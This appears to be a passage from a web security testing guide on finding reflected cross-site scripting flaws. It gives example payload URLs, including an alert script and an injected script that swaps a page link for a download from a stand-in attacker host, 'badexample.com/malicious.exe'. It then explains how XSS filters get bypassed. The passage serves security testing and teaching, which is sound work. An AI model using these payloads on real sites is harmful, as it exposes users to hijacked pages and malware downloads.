 ![Image:XSS Example1.png](XSS_Example1.png "Image:XSS Example1.png")

The tester must suspect that every data entry point can result in an XSS
attack. To analyze it, the tester will play with the user variable and
try to trigger the vulnerability.

Let's try to click on the following link and see what happens:

    http://example.com/index.php?user=<script>alert(123)</script>

If no sanitization is applied this will result in the following popup:

![Image:alert.png](alert.png "Image:alert.png")

This indicates that there is an XSS vulnerability and it appears that
the tester can execute code of his choice in anybody's browser if he
clicks on the tester's link.

#### Example 2

Let's try other piece of code (link):

    http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");
    AllLinks[0].href = "http://badexample.com/malicious.exe"; }</script>

This produces the following behavior:

![Image:XSS Example2.png](XSS_Example2.png "Image:XSS Example2.png")

This will cause the user, clicking on the link supplied by the tester,
to download the file malicious.exe from a site he controls.

### Bypass XSS filters

Reflected cross-site scripting attacks are prevented as the web
application sanitizes input, a web application firewall blocks malicious
input, or by mechanisms embedded in modern web browsers. The tester must
test for vulnerabilities assuming that web browsers will not prevent the
attack. Browsers may be out of date, or have built-in security features
disabled. Similarly, web application firewalls are not guaranteed to
recognize novel, unknown attacks. An attacker could craft an attack
string that is unrecognized by the web application firewall.

Thus, the majority of XSS prevention must depend on the web
application's sanitization of untrusted user input. There are several
mechanisms available to developers for sanitization, such as returning
an error, removing, encoding, or replacing invalid input. The means by
which the application detects and corrects invalid input is another
primary weakness in preventing XSS. A blacklist may not include all
possible attack strings, a whitelist may be overly permissive, the
sanitization could fail, or a type of input may be incorrectly trusted
and remain unsanitized. All of these allow attackers to circumvent XSS
filters.
